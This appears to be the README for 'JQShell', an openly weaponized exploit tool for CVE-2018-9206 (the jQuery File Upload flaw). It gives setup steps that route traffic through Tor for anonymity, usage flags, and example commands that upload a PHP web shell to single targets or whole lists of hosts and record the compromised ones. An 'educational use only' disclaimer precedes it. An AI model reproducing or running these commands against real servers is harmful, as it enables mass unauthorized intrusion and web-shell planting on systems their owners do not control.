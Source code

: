 **Disclaimer**

Using this agianst servers you dont control, is illegal in most countries.
The author claims no responsibility for the actions of those who use this software for illegal purposes.
This software is intended for educational use only.
No servers were illegally pwned in the making of this software.

**JQShell** 

A weaponized version of CVE-2018-9206.

**Features**

Single Target
Multi Target
Tor

**Prerequisites**

Please install these required packages.

**Python3**

```shell
pip3 install requests pysocks subprocess stem
```
**Tor Control Port**

To use tor, in this script, you must edit your torrc file and enable tor control port on 9051.

Typically this file is here: /etc/tor/torrc

open this file and change this line:

#ControlPort 9051

to

ControlPort 9051

restart tor service

**Usage**

```shell
usage: jqshell.py [-h] [-l LIST_INIT] [-t SINGLE_TARGET] -s SHELL_LOC
                  [-o OUTPUTZ] [-tor]

optional arguments:
  -h, --help            show this help message and exit
  -l LIST_INIT, --list LIST_INIT
                        Select for a list of assets to exploit
  -t SINGLE_TARGET, --target SINGLE_TARGET
                        Single exploit target
  -s SHELL_LOC, --shell SHELL_LOC
                        This is required, put the fullpath to your shell
  -o OUTPUTZ, --output OUTPUTZ
                        This is full path to were you want to save your list
                        of confirmed hosts
  -tor, --tor_proxy     Select if you have tor installed, you will need to
                        enable control port
```
**Examples**

Running agianst single target.
```shell
python3 jqshell.py -t localhost/folderwerejqueryis -s /var/www/html/shell.php
```
Running agianst single target, with saving output.
```shell
python3 jqshell.py -t localhost/folderwerejqueryis -s /var/www/html/shell.php -o pwned.txt
```
Running a list, with saving output.
```shell
python3 jqshell.py -l /opt/jquery/test.txt -s /var/www/html/shell.php -o pwned.txt
```
**Author**

* **Joshua Whitaker** 
* *Twitter* [@_Stahlz](https://twitter.com/_Stahlz)
* *Email* - [stahl@stahl.io](stahl@stahl.io)
* *Website* - [stahl.io](http://stahl.io)



